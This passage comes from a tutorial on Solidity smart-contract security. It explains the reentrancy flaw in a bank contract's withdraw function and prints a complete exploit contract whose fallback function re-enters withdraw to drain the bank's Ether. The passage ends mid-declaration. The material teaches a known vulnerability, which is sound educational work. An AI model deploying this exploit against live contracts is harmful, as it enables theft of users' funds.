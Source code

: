 ```solidity
    }
    
    function vault() public view returns(uint){
        return address(this).balance;
    }
} //end of contract
```

Can you identify the problem in the above contract? Don't worry if you cannot, it is tricky to see it if you are not used to Solidity. I will give you one more clue, the problem is in the withdraw function.

Any call to another address hands the control to that address. This includes any transfer of Ether. If the address is an account, nothing can happen. __However__, if the address is another contract (receiver) it can execute any code before giving back the control to the original contract. The receiver can even call the original contract again before the current function execution is resolved, therein lies the problem. 

When we use "transfer" or "send", reentrancy is not serious because these functions have a gas limitation that prohibits the receiver to execute anything other than log one event. Using "call" is a different story. In the last example, we could drain all Ether from the contract by using the contract below.

```solidity
pragma solidity^0.4.24;
/**
 * @title Exploit Reentrancy Flaw
 * @author Henrique
 */
contract ExploitReentrancy{
    address private owner;
    Bank private bank;
    
    constructor() public{
        owner = msg.sender;
    }
    
    function setBank(address bank_address) public {
        bank = Bank(bank_address);
    }
    
    function deposit() public payable returns (uint){
        bank.deposit.value( msg.value )();
        return bank.checkBalance();
    }
    
    function getFunds() public {
        require(owner == msg.sender);
        owner.transfer( address(this).balance );
    }

    function exploit() public {
        require(owner == msg.sender);
        bank.withdraw();
    }
        
    function() public payable {
        uint balance = bank.checkBalance();
        if( address(bank).balance >= balance ){
            bank.withdraw();
        }
    }
} //end of contract

interface Bank{ //interface to use bank functions
```